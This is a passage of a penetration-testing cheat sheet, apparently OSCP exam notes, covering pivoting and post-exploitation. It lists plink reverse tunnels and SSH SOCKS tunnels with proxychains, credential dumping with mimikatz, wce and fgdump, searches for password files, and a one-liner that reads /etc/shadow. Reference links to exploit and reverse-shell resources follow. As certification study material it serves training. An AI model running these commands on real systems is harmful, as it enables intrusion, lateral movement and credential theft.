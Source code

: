 
## Network Pivoting

* Windows:
    * Plink:
        ```bash
        plink $lhost -P 22 -C -R 127.0.0.1:$lport:$rhost:$rport
        ```
* Linux:
    * Proxychains: 
        *
            ```bash
            ssh -D 127.0.0.1:$lport -p 22 $ruser@pivot-target-ip
            ```
        * (Add socks4 127.0.0.1 $lport in /etc/proxychains.conf)

        * [all_cmds_on_kali] 
            ```bash
            ssh -D $proxychainsport -p 22 $ruser@$rhost
            ```
            * (Add in last line in /etc/proxychains.conf: socks4 127.0.0.1 $proxychainsport )
            * proxychains [command )i.e. nmap . ..)]

---

## OSCP Post Checks
* Windows:
    * Plink:
        ```bash
        plink $lhost -P 22 -C -R 127.0.0.1:$lport:$rhost:$rport
        ```
    * CREDENTIALS DUMP(`mimikatz,wce,fgdump`) then 
        ```batch
        systeminfo & ipconfig & route print & arp -a & dir /s network-secret.txt & dir /s *pass* & psloggedon.exe -accepteula
        ```

    * ProxyChains:
        * proxychain via ssh to target then:
            * proxychains /root/Tools/post_checks.sh

    * [all_cmds_on_kali]
        ```bash
        ssh -D $proxychainsport -p 22 $ruser@$rhost
        ```
        * (Add in last line in /etc/proxychains.conf: socks4 127.0.0.1 $proxychainsport )
        * proxychains [command )i.e. nmap . ..)]

    * Enable RDP:[^12]
    [^12]: [Hacking Tutorial](https://www.hacking-tutorial.com/tips-and-trick/how-to-enable-remote-desktop-using-command-prompt/)

* Linux:
    ```bash
    ls /root && cat /root/proof.txt && find / -name network-secret.txt && cat /etc/shadow && route -n && arp -a && ifconfig && netstat -plunt && w  
    ```

---

[^1]: [sleventyeleven](https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py)
[^2]: [highon.coffee](https://highon.coffee/downloads/linux-local-enum.sh)
[^3]: [rebootuser](https://github.com/rebootuser/LinEnum)
[^4]: [g0tm1lk](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)
[^8]: [Memmodipper](https://www.exploit-db.com/exploits/18411)
[^9]: [chkrootkit](https://www.exploit-db.com/exploits/33899)
[^10]:  [Mimikatz](https://github.com/gentilkiwi/mimikatz/releases/latest)
[^11]: [Amplia Security](https://www.ampliasecurity.com/research.html)
[^12]: [Foofus](http://foofus.net/goons/fizzgig/fgdump/downloads.htm)
[^13]: [neomh](https://github.com/neomh/cheat-sheets/blob/master/Commands)
[^14]: [Pentest monkey](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[^15]: [Vulnerabilityassessment.co](http://www.vulnerabilityassessment.co.uk/Penetration%20Test.html)
[^16]: [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)
[^17]: [Escape from shellcatraz](https://speakerdeck.com/knaps/escape-from-shellcatraz-breaking-out-of-restricted-unix-shells)
[^18]: [ianthomasfry](https://ianthomasfry.blogspot.com/2017/05/oscp-exam-study-guide-i-first-steps.html)
[^19]: [Sec Juice](https://www.secjuice.com/oscp-prep-guidance/)
[^20]: [scund00r](https://scund00r.com/all/oscp/2018/02/25/passing-oscp.html)
[^21]: [backdoorshell](https://backdoorshell.gitbooks.io/oscp-useful-links/content/fuzzing.html)
[^22]: [0xc0ffee](http://0xc0ffee.io/blog/OSCP-Goldmine)
[^23]: [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/)
[^24]: [ihack4falafel](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Bookmark%20List.pdf)
[^25]: [kevsec](http://kevsec.fr/resources/)
[^26]: [futureoscp](http://futureoscp.blogspot.com/2017/10/usefull-oscp-material.html)
[^5]: [WindowsPrivCheck](https://github.com/ihack4falafel/OSCP/blob/master/Documents/Upgrading%20half%20shells%20to%20fully%20interactive%20TTYs.pdf)
[^6]: [Accesschk](https://download.sysinternals.com/files/AccessChk.zip)
[^7]: [JAWS](https://github.com/411Hall/JAWS.git)
[^31]: [Exploit-db-130179](https://www.exploit-db.com/papers/13017)
[^32]: [hackingarticles](https://www.hackingarticles.in/5-ways-exploit-lfi-vulnerability/)
[^33]: [Graceful security](https://www.gracefulsecurity.com/path-traversal-cheat-sheet-windows/)
[^34]: [3mrgnc3](https://github.com/3mrgnc3/LFIter2/blob/master/win-fpaths.txt)
[^35]: [Ethical Hackers Club](https://www.youtube.com/watch?v=1fkgo4hsyp8)
[^36]: [HackMag](https://hackmag.com/security/hacking-mysql-databases-methods-and-tools/)